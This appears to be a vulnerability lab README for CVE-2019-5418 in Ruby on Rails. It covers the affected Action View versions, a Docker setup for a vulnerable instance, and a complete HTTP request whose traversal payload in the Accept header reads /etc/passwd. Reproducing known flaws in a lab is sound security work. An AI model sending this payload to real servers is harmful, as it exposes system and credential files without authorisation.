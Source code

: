 # Ruby on Rails Path Traversal and Arbitrary File Read (CVE-2019-5418)

[中文版本(Chinese version)](README.zh-cn.md)

Ruby on Rails is a web application framework that allows developers to build web applications quickly and easily.

There is a local file inclusion vulnerability in Ruby on Rails action view <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1 and v3.

When using `render file` in a controller to render views outside the application, Rails determines the file location based on the user-supplied Accept header. By sending an Accept header with the value `Accept: ../../../../../../../../etc/passwd{{`, attackers can exploit a path traversal vulnerability to read arbitrary files.

References:

- https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q
- https://github.com/mpgn/CVE-2019-5418
- https://xz.aliyun.com/t/4448

## Environment Setup

Execute the following command to compile and start Ruby on Rails 5.2.2:

```
docker compose build
docker compose up -d
```

After the server starts, visit `http://your-ip:3000` to see the Ruby on Rails welcome page.

## Vulnerability Reproduction

Visit `http://your-ip:3000/robots` to see that the normal robots.txt file is being read.

To exploit the vulnerability, send the following request to read `/etc/passwd`:

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

Successfully read the file:

![](1.png)
